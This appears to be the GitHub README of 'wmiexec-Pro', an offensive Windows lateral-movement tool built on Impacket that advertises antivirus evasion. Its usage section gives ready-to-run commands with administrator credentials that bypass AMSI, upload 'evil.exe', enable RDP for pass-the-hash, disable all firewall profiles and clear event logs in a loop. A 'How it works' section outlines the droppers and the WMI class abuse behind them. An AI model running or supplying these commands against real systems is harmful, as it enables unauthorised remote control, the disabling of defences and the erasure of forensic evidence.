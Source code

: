 <a name="readme-top"></a>

# wmiexec-Pro

New generation of wmiexec.py.

#### Table of Contents
<ol>
<li>
  <a href="#info">Info</a>
</li>
<li>
  <a href="#features">Features</a>
</li>
<li>
  <a href="#getting-started">Getting Started</a>
  <ul>
    <li><a href="#installation">Installation</a></li>
  </ul>
</li>
<li><a href="#usage">Usage</a></li>
<li><a href="#screenshots">Screenshots</a></li>
<li><a href="#how-it-works">How it works?</a></li>
<li><a href="#references">References</a></li>
</ol>



## Info

The new generation of wmiexec.py, more new features, whole the operations only work with port 135 (don't need smb connection) for AV evasion in lateral movement  (Windows Defender, HuoRong, 360)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

## Features

- Main feature: Only need port 135.
- New module: AMSI bypass
- New module: File transfer
- New module: Remote enable RDP via wmi class method
- New module: Windows firewall abusing
- New module: Eventlog looping cleaning
- New module: Remote enable WinRM without touching CMD
- Enhancement: Get command execution output in new way
- Enhancement: Execute vbs file

<p align="right">(<a href="#readme-top">back to top</a>)</p>

## Getting Started

### Installation

_Only need latest version of Impacket_

1. Clone the impacket repository
   ```sh
   git clone https://github.com/fortra/impacket
   ```
2. Install imapcket
   ```sh
   cd imapcket && sudo pip3 install .
   ```
3. Enjoy it :)
   ```sh
   git clone https://github.com/XiaoliChan/wmiexec-Pro
   ```

<p align="right">(<a href="#readme-top">back to top</a>)</p>


## Usage

```
python3 wmiexec-pro.py [[domain/]username[:password]@]<targetName or address> module -h

Enable/disable amsi bypass:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 amsi -enable
   python3 wmiexec-pro.py administrator:password@192.168.1.1 amsi -disable

Execute command:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" (slient)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -with-output (with output)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -with-output -save (with output and save output to file)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -clear (remove temporary class for command result storage)
   
Filetransfer:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 filetransfer -upload -src-file "./evil.exe" -dest-file "C:\windows\temp\evil.exe" (Upload file over 512KB)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 filetransfer -download -src-file "C:\windows\temp\evil.exe" -dest-file "/tmp/evil.exe" (download file over 512KB)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 filetransfer -clear
   
RDP:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -enable (Auto configure firewall)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -enable-ram (enable Restricted Admin Mode for PTH)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -disable
   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -disable-ram (Disable Restricted Admin Mode)

WinRM:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 winrm -enable
   python3 wmiexec-pro.py administrator:password@192.168.1.1 winrm -disable

Firewall:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -search-port 445
   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -dump (Dump all firewall rules)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -rule-id (ID from search port) -rule-op [enable/disable/remove] (enable, disable, remove specify rule)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -firewall-profile enable (Enable all firewall profiles)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -firewall-profile disable (disable all firewall profiles)
   
Eventlog:
   python3 wmiexec-pro.py administrator:password@192.168.1.1 eventlog -risk-i-know (Looping cleaning eventlog)
   python3 wmiexec-pro.py administrator:password@192.168.1.1 eventlog -retrive object-ID (Stop looping cleaning eventlog)
   
```

<p align="right">(<a href="#readme-top">back to top</a>)</p>


## Screenshots
- Help
  - ![](images/help.png)

- exec-command
  - ![](images/comand-exec.png)

- filetransfer

  - upload file

    ![](images/upload-file.png)

  - download file  

    ![](images/download-file.png)

<p align="right">(<a href="#readme-top">back to top</a>)</p>


## How it works?

- AMSI module:
  - Tal-Liberman's technique from blackhat asia 2018.

- exec-command module:
  - Enhancement of previous project: [wmiexec-RegOut](https://github.com/XiaoliChan/wmiexec-RegOut), get output from wmi class instead of from registry.

- filetransfer module:
  - For upload: encode the source file as base64 strings into the dropper named `WriteFile.vbs`, then create a new instance of object `ActiveScriptEventConsumer` to execute the dropper.
  - For download: remote create a class to store data, then execute the encoder `LocalFileIntoClass.vbs` to encode the file and store data into the class that just created.

- rdp module:
  - For enable/disable: rdp serivces: control `TerminalServices` object directly.
  - For enable/disable: Restricted Admin Mode: control registry key `DisableRestrictedAdmin` via `StdRegProv` class.

- winrm module:
  - For enable/disable: call  `Start/StopSerivce()` method of `Win32_Service`.
  - For firewall rules: use module `firewall.py` to configure firewall of winrm.

- firewall module:
  - Abusing `MSFT_NetProtocolPortFilter`, `MSFT_NetFirewallRule`, `MSFT_NetFirewallProfile` classes.

- eventlog module:
  - Execute the vbs script file `ClearEventlog.vbs` without remove `event` and `consumer`.

- execute-vbs module:
  - Picked from `wmipersist.py`.

- classMethodEx method:
  - For create class: execute the vbs scritp : `CreateClass.vbs` to create simple class. (Why? Have no idea how to use `PutClass` method in impacket.)
  - For remove class: call `DeleteClass` method to remove class.

<p align="right">(<a href="#readme-top">back to top</a>)</p>


## References

* [GhostPack/SharpWMI](https://github.com/GhostPack/SharpWMI)
* [impacket](https://github.com/fortra/impacket/)
* [WMIHACKER](https://github.com/rootclay/WMIHACKER)
* [Microsoft WMI Docs](https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/operating-system-classes)
* [Microsoft VBScripts Docs](https://learn.microsoft.com/en-us/windows/win32/wmisdk/creating-a-wmi-script)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

